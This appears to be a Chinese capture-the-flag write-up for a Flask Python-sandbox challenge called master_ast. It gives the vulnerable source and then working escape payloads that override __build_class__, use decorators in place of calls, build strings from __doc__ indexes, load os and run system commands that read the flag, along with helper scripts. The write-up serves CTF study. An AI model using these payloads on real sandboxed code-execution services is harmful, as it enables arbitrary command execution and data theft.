


# 国城杯线下决赛master_ast题解-先知社区

> **来源**: https://xz.aliyun.com/news/16306  
> **文章ID**: 16306

---

## 一、源码及分析

```
import ast
from flask import Flask, render_template, request, jsonify
BLACK_LIST = ['\'', '\"', '(', ')']
app = Flask(__name__)

attributes = {
    'Import': False,
    'ImportFrom': False,
    'alias': False,
    'BoolOp': ['values'],
    'BinOp': ['left', 'right'],
    'UnaryOp': ['operand'],
    'Lambda': ['body'],
    'IfExp': ['test', 'body', 'orelse'],
    'Dict': ['keys', 'values'],
    'Set': ['elts'],
    'ListComp': ['elt', 'generators'],
    'SetComp': ['elt', 'generators'],
    'DictComp': ['key', 'value', 'generators'],
    'GeneratorExp': ['elt', 'generators'],
    'Yield': ['value'],
    'Compare': ['left', 'comparators'],
    'Call': False,
    'Repr': ['value'],
    'Num': True,
    'Str': True,
    'Attribute': True,
    'Subscript': ['value'],
    'Name': True,
    'List': ['elts'],
    'Tuple': ['elts'],
    'Expr': ['value'],
    'comprehension': ['target', 'iter', 'ifs'],
}
def check_ast(m):
    for node in ast.walk(m):
        node_type = type(node).__name__
        if attributes.get(node_type, True) is False:
            return False
    return True

def check(code):
    for keyword in BLACK_LIST:
        if keyword in code.lower():
            return False
    return True

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/execute', methods=['POST'])
def execute_code():
    source_code = request.form['code']
    try:
        tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)

        if not check_ast(tree) or not check(source_code):
            return jsonify({"error": "Invalid or unsafe code."})

        local_scope = {}
        safe_globals = {
            '__builtins__': {
                'pow': pow, 'divmod': divmod, 'min': min,
                'max': max, 'sum': sum, 'complex': complex,
                'oct': oct, 'hex': hex
            }
        }
        exec(source_code, safe_globals, local_scope)

        return jsonify({"result": local_scope.get('a', None)})
    except Exception as e:
        return jsonify({"error": f"{str(e)}"})

if __name__ == '__main__':
    app.run()

```

看源码就是沙箱逃逸

这里做了三层过滤：

* 过滤字符：BLACK\_LIST = ['\'', '\"', '(', ')']
* ast沙箱禁止了call和import相关操作
* 执行命令时，设置了globals的白名单

过滤了括号首先想到的就是用@修饰符来绕过，过滤引号使用`__doc__`文档来构造字符串，但是由于设置了globals的白名单，我们无法直接调用白名单以外的函数，所以基本思路还是通过objetc的子类来导入命令执行模块

我们构造出的基本payload如下：

```
[].__class__.__base__.__class__.__subclasses__(object)[120].load_module("os").system("whoami")

```

这里的120为<class '\_frozen\_importlib.BuiltinImporter'>模块，不同的python版本，其序号不一样，题目是3.12的版本

## 二、去掉括号

然后最关键的一步，怎么去掉括号，需要知道三个知识点：

1.lambda关键字可以动态的创建匿名函数并执行，匿名函数的创建和执行的AST语法结构中是不包含call的。



2.当用class关键字定义类时，实际上是调用了`__build_class__`，通过修改这个函数的定义我们可以在定义类的时候执行任意操作。

3.最后就是关于@修饰符的使用，结合定义类，它可以在不出现call或者括号的的情况下调用函数。

## 三、构造过程

1.修改类的定义为创建匿名函数,该匿名函数返回<class 'object'>

```
__builtins__["__build_class__"]=lambda*_:[].__class__.__base__

```

2.获取<class 'object'>的所有子类

```
__builtins__["__build_class__"]=lambda*_:[].__class__.__base__
@[].__class__.__base__.__class__.__subclasses__
class s:_

```

这里主要就是利用了修饰符来修饰类，结合修改类的定义，实现了类似传参并执行函数的操作，后面就是相同的套娃操作了。

3.使用<class '\_frozen\_importlib.BuiltinImporter'>加载os模块

```
__builtins__["__build_class__"]=lambda*_:[].__class__.__base__
@[].__class__.__base__.__class__.__subclasses__
class s:_
@s[120].load_module
@lambda _:"os"
class o:_

```

4.调用system函数并执行命令whoami

```
__builtins__["__build_class__"]=lambda*_:[].__class__.__base__
@[].__class__.__base__.__class__.__subclasses__
class s:_
@s[120].load_module
@lambda _:"os"
class o:_
@o.system
@lambda _:"whoami"
class _:_

```

## 四、bypass

由于过滤了引号，直接用`__doc__`构造字符串，这里由于无回显，所以尝试写静态目录来回显:

mkdir static

```
__builtins__[[].__doc__.__doc__[31]+[].__doc__.__doc__[31]+[].__doc__[13]+[].__doc__[1]+[].__doc__[2]+[].__doc__[3]+[].__doc__[139]+[].__doc__.__doc__[31]+[].__doc__[23]+[].__doc__[3]+[].__doc__[12]+[].__doc__[17]+[].__doc__[17]+[].__doc__.__doc__[31]+[].__doc__.__doc__[31]]=lambda*_:[].__class__.__base__
@[].__class__.__base__.__class__.__subclasses__
class s:_
@s[120].load_module
@lambda _:[].__doc__[32]+[].__doc__[17]
class o:_
@o.system
@lambda _:{}.__doc__[15]+{}.__doc__[104]+{}.__doc__[0]+{}.__doc__[1]+{}.__doc__[28]+{}.__doc__[6]+{}.__doc__[97]+{}.__doc__[3]+{}.__doc__[27]+{}.__doc__[3]+{}.__doc__[1]+{}.__doc__[2]
class _:_

```

cat /flag > static/a.txt

```
__builtins__[[].__doc__.__doc__[31]+[].__doc__.__doc__[31]+[].__doc__[13]+[].__doc__[1]+[].__doc__[2]+[].__doc__[3]+[].__doc__[139]+[].__doc__.__doc__[31]+[].__doc__[23]+[].__doc__[3]+[].__doc__[12]+[].__doc__[17]+[].__doc__[17]+[].__doc__.__doc__[31]+[].__doc__.__doc__[31]]=lambda*_:[].__class__.__base__
@[].__class__.__base__.__class__.__subclasses__
class s:_
@s[120].load_module
@lambda _:[].__doc__[32]+[].__doc__[17]
class o:_
@o.system
@lambda _:{}.__doc__[2]+{}.__doc__[27]+{}.__doc__[3]+{}.__doc__[6]+divmod.__doc__[19]+{}.__doc__[75]+{}.__doc__[69]+{}.__doc__[27]+{}.__doc__[42]+{}.__doc__[6]+{}.__doc__[8]+{}.__doc__[6]+{}.__doc__[97]+{}.__doc__[3]+{}.__doc__[27]+{}.__doc__[3]+{}.__doc__[1]+{}.__doc__[2]+divmod.__doc__[19]+{}.__doc__[27]+{}.__doc__[335]+{}.__doc__[3]+{}.py__doc__[343]+{}.__doc__[3]
class _:_

```

说明：这里在safe\_globals添加了一些模块，就是用来构造"/"的，其实不用给也能构造，只是和这道题有点不兼容。

分别提交上面两个payload成功读到flag



## 五、脚本

查找模块位置

```
# creat by Litsasuk
import re

def ssti(array, keywords):
    result = []
    for index, element in enumerate(array):
        if keywords in element:
            result.append((index, element))
    return result

def find_by_index(array, index):
    if 0 <= index < len(array):
        return index, array[index]
    else:
        return None

# print([].__class__.__base__.__class__.__subclasses__(object))
data = input("输入模块列表: ")
keywords = input("输入要查找的关键字: ")

data1 = data.replace("[", "")
data2 = data1.replace("]", "")
data3 = re.sub(r'\s+<', '<', data2)
array = data3.split(",")

if keywords.isdigit():
    index = int(keywords)
    result = find_by_index(array, index)
    if result:
        print(f"{result[0]}: {result[1]}")
    else:
        print(f"输入的索引 {index} 超出数组范围。")
else:
    results = ssti(array, keywords)
    if results:
        for index, element in results:
            print(f"{index}: {element}")
    else:
        print(f"未找到包含 '{keywords}' 的元素。")

```

`__doc__`文档构造字符串

```
# creat by Litsasuk
a = [].__doc__
char = "cat /flag"

result = []
for s in char:
    index = a.find(s)
    if index != -1:
        result.append(f"[].__doc__[{index}]")
    else:
        print(f"Character '{s}' not found in d's docstring.")
        result.append("'?'")

expression = "+".join(result)
print(expression)

```

## 六、总结

这个题的构造思路很巧妙，都是常见的trick，但是需要对python的代码有一定的理解才能构造出payload

题目环境：[litsasuk/My-CTF-Web-Challenges](https://github.com/litsasuk/My-CTF-Web-Challenges)
